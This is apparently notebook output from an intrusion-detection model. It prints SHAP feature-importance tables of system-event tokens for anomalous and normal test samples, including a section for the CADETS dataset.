


🔍 Analyzing [ANOMALY] | Test Index: 2235
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                read           -0.000001
      wpnuserservice           -0.000001
                 208           -0.000001
             sysmain           -0.000001
                 and           -0.000001
                wbem           -0.000001
                  17           -0.000001
            wmiprvse           -0.000001
              defrag           -0.000000
     officec2rclient           -0.000000
                  90           -0.000000
           tvnserver           -0.000000
                 117           -0.000000
            tightvnc           -0.000000
 appidcertstorecheck           -0.000000
                 213           -0.000000
                 112           -0.000000
              accept           -0.000000
                 146           +0.000001
             network           +0.




🔍 Analyzing [ANOMALY] | Test Index: 2230
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
      wpnuserservice           -0.000001
             sysmain           -0.000001
                 208           -0.000001
                 and           -0.000001
             network           -0.000001
              accept           -0.000001
                wbem           -0.000001
               event           -0.000000
           tvnserver           -0.000000
            tightvnc           -0.000000
                read           -0.000000
                  17           -0.000000
     officec2rclient           -0.000000
                  90           -0.000000
           attribute           -0.000000
              defrag           -0.000000
                 cmd           +0.000001
                  12           +0.000001
                  55           +0.000001
                 128           +0.




🔍 Analyzing [ANOMALY] | Test Index: 2232
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
      wpnuserservice           -0.000001
             sysmain           -0.000001
                 208           -0.000001
                 and           -0.000001
              accept           -0.000001
                wbem           -0.000000
             network           -0.000000
                  90           -0.000000
                 117           -0.000000
                  17           -0.000000
                read           -0.000000
              defrag           -0.000000
               event           -0.000000
                 112           -0.000000
                 213           -0.000000
     officec2rclient           -0.000000
 appidcertstorecheck           -0.000000
             svchost           +0.000000
               write           +0.000000
                 cmd           +0.




🔍 Analyzing [NORMAL] | Test Index: 56
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
    Token (Feature Name) SHAP Value (Impact)
          wpnuserservice           -0.000001
                     208           -0.000001
                     and           -0.000001
                 sysmain           -0.000001
                  accept           -0.000001
                    read           -0.000001
                 network           -0.000001
                   event           -0.000001
                    wbem           -0.000000
                      90           -0.000000
                     117           -0.000000
         officec2rclient           -0.000000
                  defrag           -0.000000
                      17           -0.000000
                     213           -0.000000
                     112           -0.000000
                wmiprvse           -0.000000
systempropertiesadvanced           -0.000000
  




🔍 Analyzing [NORMAL] | Test Index: 494
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
    Token (Feature Name) SHAP Value (Impact)
          wpnuserservice           -0.000001
                     208           -0.000001
                 sysmain           -0.000001
                     and           -0.000001
                    read           -0.000001
                 network           -0.000001
                  accept           -0.000001
                    wbem           -0.000001
                  defrag           -0.000000
                   event           -0.000000
                      90           -0.000000
                      17           -0.000000
                     117           -0.000000
         officec2rclient           -0.000000
systempropertiesadvanced           -0.000000
                wmiprvse           -0.000000
                     213           -0.000000
                 firefox           +0.000001
 




🔍 Analyzing [NORMAL] | Test Index: 1671
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
      wpnuserservice           -0.000001
             sysmain           -0.000001
                 208           -0.000001
                 and           -0.000001
              accept           -0.000001
                read           -0.000000
             network           -0.000000
                wbem           -0.000000
              defrag           -0.000000
            tightvnc           -0.000000
                 117           -0.000000
           tvnserver           -0.000000
               event           -0.000000
     officec2rclient           -0.000000
                  90           -0.000000
                 213           -0.000000
                 112           -0.000000
               write           +0.000000
              upload           +0.000000
              wermgr           +0.0




🔍 Analyzing [NORMAL] | Test Index: 218
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
      wpnuserservice           -0.000001
                 208           -0.000001
             sysmain           -0.000001
                 and           -0.000001
              accept           -0.000001
             network           -0.000001
               event           -0.000001
           attribute           -0.000000
                wbem           -0.000000
                  17           -0.000000
                read           -0.000000
                  90           -0.000000
              defrag           -0.000000
                 117           -0.000000
           tvnserver           -0.000000
            tightvnc           -0.000000
     officec2rclient           -0.000000
                 213           -0.000000
              whoami           +0.000001
                 cmd           +0.00




🔍 Analyzing [NORMAL] | Test Index: 952
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
    Token (Feature Name) SHAP Value (Impact)
          wpnuserservice           -0.000001
                     208           -0.000001
                     and           -0.000001
                 sysmain           -0.000001
                  accept           -0.000001
                    read           -0.000001
                 network           -0.000001
                   event           -0.000001
                    wbem           -0.000000
                      90           -0.000000
                     117           -0.000000
         officec2rclient           -0.000000
                  defrag           -0.000000
                      17           -0.000000
                     213           -0.000000
                     112           -0.000000
                wmiprvse           -0.000000
systempropertiesadvanced           -0.000000
 




████████████████████████████████████████████████████████████████████████████████
🚀 PROCESSING SHAP FOR PERFORMER: CADETS
████████████████████████████████████████████████████████████████████████████████

🔍 Analyzing [ANOMALY] | Test Index: 44927
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000002
              master           -0.000002
                 113           -0.000001
                bash           -0.000001
          executable           -0.000001
               sleep           -0.000001
                 167           -0.000001
                read           -0.000000
               fcntl           -0.000000
       create_object           -0.000000
               write           -0.000000
              accept           +0.000000
                  39           +0.000000
                head           +0.000001
                  61           +0.0




🔍 Analyzing [ANOMALY] | Test Index: 44923
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000002
               sleep           -0.000001
                 205           -0.000000
                read           -0.000000
               write           -0.000000
                  36           -0.000000
                 235           -0.000000
                bash           -0.000000
                9000           -0.000000
                  78           -0.000000
             recvmsg           -0.000000
                sshd           +0.000000
add_object_attribute           +0.000000
              master           +0.000000
              alpine           +0.000001
               inetd           +0.000001
                  80           +0.000001
               nginx           +0.000001
               event           +0.000001
                 and           +0




🔍 Analyzing [ANOMALY] | Test Index: 44928
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000002
             network           -0.000001
                 141           -0.000001
                bash           -0.000001
               sleep           -0.000001
          executable           -0.000001
                read           -0.000000
               write           -0.000000
                 110           -0.000000
                 111           -0.000000
               fcntl           -0.000000
               close           -0.000000
add_object_attribute           +0.000000
                head           +0.000000
                  67           +0.000000
                sshd           +0.000000
              alpine           +0.000001
               event           +0.000001
               inetd           +0.000001
                 and           +0

